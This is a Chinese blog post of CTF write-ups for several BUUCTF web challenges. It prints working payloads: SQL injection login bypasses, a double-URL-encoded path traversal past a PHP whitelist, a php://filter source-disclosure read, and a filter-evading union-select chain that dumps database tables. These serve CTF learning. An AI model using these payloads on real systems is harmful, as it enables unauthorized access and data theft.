 ```yaml
---
title: BUUCTF-web刷题
tags: 
  - web
  - CTF
permalink: /archives/44511/
published: 2022-08-09 20:02:51
---
```


> BUUCTF平台的web题，持续刷。

## [极客大挑战 2019]EasySQL

- 题目：

![img](./images/1659965485785-6b64d659-c5b2-4c84-a2d6-8adca00fb79f.png)

- 有登录框，第一联想到利用sql注入，直接尝试万能密码`' or '1'='1`登录

![img](./images/1659965617560-a5ba0dd4-aa1f-42b2-858c-0228a48d5ff0.png)

## [HCTF 2018]WarmUp

- 一进去就只有一个滑稽脸，直接查看源码，得到source.php，进去得到源码

![img](./images/1659966780771-950e19e1-5821-4413-a295-95f5b8e4e69c.png)

- 源码：

```php
<?php
    highlight_file(__FILE__);
    class emmm
    {
        public static function checkFile(&$page)
        {
            $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
            if (! isset($page) || !is_string($page)) {
                echo "you can't see it";
                return false;
            }

            if (in_array($page, $whitelist)) {
                return true;
            }

            $_page = mb_substr(
                $page,
                0,
                mb_strpos($page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }

            $_page = urldecode($page);
            $_page = mb_substr(
                $_page,
                0,
                mb_strpos($_page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }
            echo "you can't see it";
            return false;
        }
    }

    if (! empty($_REQUEST['file'])
        && is_string($_REQUEST['file'])
        && emmm::checkFile($_REQUEST['file'])
    ) {
        include $_REQUEST['file'];
        exit;
    } else {
        echo "<br><img src=\"https://i.loli.net/2018/11/01/5bdb0d93dc794.jpg\" />";
    }  
?>
```

> 1、代码审计，发现还有一个hint.php，进去后得到`flag not here, and flag in ffffllllaaaagggg`，那也就是flag在ffffllllaaaagggg里，但是没有具体说明是在那个目录下，因此构造时候需要依次通过…/…/构造尝试，去查看到底是几层的根目录
>
> 2、代码审计，发现是白名单验证，文件包含只能包含source.php和hint.php
>
> 3、根据后面的if条件得知，file不能为空，必须为字符串，还要通过checkfile()函数的检查，才能包含。
>
> 4、其中检查共有三次，第三次要经过url解码
>
> 5、payload：`file=source.php%253f/../../../../../../ffffllllaaaagggg`

![img](./images/1659967349372-dd08f2da-cd70-4bf1-837d-72ae29d9a6b4.png)

## [极客大挑战 2019]Havefun

- 查看源码

![img](./images/1659967412083-2a52fb54-ea7b-4b91-afcf-d13ac14f417b.png)

- 根据源码很容易得到payload：`?cat=dog`

![img](./images/1659967477695-b75a0926-7bd4-4aec-9fd6-dc9ceec4afa0.png)

## [ACTF2020 新生赛]Include

- 一上来直接给了一个tips超链接，然后进去得到

![img](./images/1659967617876-e53455d1-be03-490a-9535-2b080959168d.png)

> 观察url发现有flag.php，结合题目判断这题是php伪协议
>
> payload：`?file=php://filter/read=convert.base64-encode/resource=flag.php`
>
> 把得到的base64字符串进行解码

![img](./images/1659967946632-5f593b96-3985-40fc-b130-d6970949269d.png)

## [ACTF2020 新生赛]Exec

- 发现是一个ping的命令执行，测试一下其他命令是否也能执行，是成功的

![img](./images/1659968049937-11d102a4-aad2-4521-addc-2565f4365f77.png)

- 那就直接抓取flag

![img](./images/1659968097734-9507a5b1-d1c7-4c96-9799-28142ac652c8.png)

## [极客大挑战 2019]BabySQL

- 题目：

![img](./images/1660980135444-9e2c836c-0b7b-416a-bec3-448669307193.png)

- 尝试用admin登录失败

![img](./images/1660980292881-fe4cd226-1a20-4168-b380-81049dd174a2.png)

- 进行sql注入

- payload：`?username=1' order by 3&password=admin`

![img](./images/1660980630189-828aecb0-e231-480b-9afe-ae74878e637a.png)

- 可以看到order的or和by均被过滤掉了

- 尝试联合注入

![img](./images/1660980811662-e338fa89-2fa7-4dcf-aba6-7a04c76af288.png)

> 同样union和select也都被过滤掉了
>
> 利用双写绕过，发现有3个字段

- payload：`?username=' oorrder bbyy 4--+&password=admin`

![img](./images/1660981906860-fa3011f9-ef66-4488-9a17-60d972a3fd6f.png)

- 回显位为第二个和第三个字段

- payload：`?username=' ununionion seselectlect 1,2,3--+&password=admin`

![img](./images/1660982012073-e323a752-31ff-482b-8c78-bb5d7f3cd5d9.png)

- 查所有库

- payload：`?username=' ununionion seselectlect 1,2,(seselectlect group_concat(schema_name) frfromom infoorrmation_schema.schemata)--+&password=admin`

![img](./images/1660983995572-138d1d45-29d6-4c8e-8214-3849ec5c205d.png)

- 查ctf库中的所有表
- payload：`?username=' ununionion seselectlect 1,2,(seselectlect group_concat(table_name) frfromom infoorrmation_schema.tables whewherere table_schema='ctf') --+&password=admin`

![img](./images/1660984181446-440ed3b8-df44-4bd8-bdf6-23ce262e07ee.png)

- 查Flag表中的所有字段
- payload：`?username=' ununionion seselectlect 1,2,(seselectlect group_concat(column_name) frfromom infoorrmation_schema.columns whewherere table_name='Flag') --+&password=admin`

![img](./images/1660984384749-570e6518-f223-45f2-9cc9-5ee6d769ad2c.png)

- 查看flag字段内的内容
- paylaod：`?username=' ununionion seselectlect 1,2,group_concat(flag) frfromom ctf.Flag--+&password=admin`

![img](./images/1660983468939-228328bb-4756-402f-884b-4a9cfd20a403.png)
